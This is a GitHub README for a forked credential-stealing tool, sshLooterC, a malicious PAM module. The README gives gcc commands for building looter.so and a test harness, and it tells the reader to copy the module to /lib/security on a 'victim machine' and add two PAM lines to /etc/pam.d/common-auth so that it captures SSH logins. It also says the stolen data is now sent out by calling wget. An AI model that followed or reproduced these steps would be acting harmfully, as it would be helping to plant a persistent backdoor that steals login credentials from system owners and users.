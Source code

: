 # sshLooterC forked

<a href="https://github.com/mthbernardes/sshLooterC">https://github.com/mthbernardes/sshLooterC</a>

# Changes from the original project
* Removed libcurl4-openssl-dev dependency, now using <b>system("wget ...")</b>
* Compiled for 32bit arch on a 64bit system, you need to install <b>gcc-multilib</b> on the attacker machine
* I coded <b>callLooter.c</b> to test the library before installation on the target


# Dependencies
* PAM dev library: <b>libpam0g-dev</b>
* [Optional] To compile the program for 32bit arch you need to install <b>gcc-multilib</b> on a 64bit system

# Compilation
~~~~
gcc callLooter.c -o callLooter -m32 -ldl
gcc -m32 -Werror -Wall -fPIC -shared -o looter.so looter2.c
~~~~
The m32 switch is optional and allows to compile the files for a 32bit victim on a 64bit attacker machine

# Usage
Copy the <b>looter.so</b> to victim machine on <b>/lib/security</b>, then append to <b>/etc/pam.d/common-auth</b> the following lines:
~~~~
auth optional looter.so
account optional looter.so
~~~~
# Credits
<a href="https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html" target="_blank">Stealing SSH credentials Another Approach.</a>
<br/>
Thank you

 
